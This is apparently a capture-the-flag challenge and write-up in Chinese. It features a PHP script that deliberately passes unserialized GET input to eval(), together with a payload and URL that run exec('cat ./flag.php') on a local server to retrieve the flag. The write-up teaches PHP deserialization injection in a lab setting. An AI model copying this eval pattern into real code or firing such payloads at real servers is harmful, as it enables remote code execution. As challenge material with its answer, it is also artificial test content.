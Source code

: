 
### 某站点图片阅览器
![](./un.jpg)
```
<?php 
error_reporting(0); 
if(empty($_GET['code'])) die(show_source(__FILE__)); 
class Example{ 
    var $var=""; 
    function __destruct(){ 
        eval($this->var); 
    } 
} 

$ob = new Example(); 
$ob->var = unserialize($_GET['code']); 
echo '__FILE__:' . __FILE__; 
echo '<br />' . '?code='; 
unset($ob); 
?> 1
```
#### 配置
```
chmod 777 un.php
```

# Writeup:

Payload:

```
<?php
$a =serialize('echo exec("cat ./flag.php");');
echo $a;
?>

>>>> php se.php

s:28:"echo exec("cat ./flag.php");";

```


http://127.0.0.1/un.php?code=s:28:"echo exec("cat ./flag.php");";

![](./get-flag.jpg)

flag{Here_is_php_unserialize}
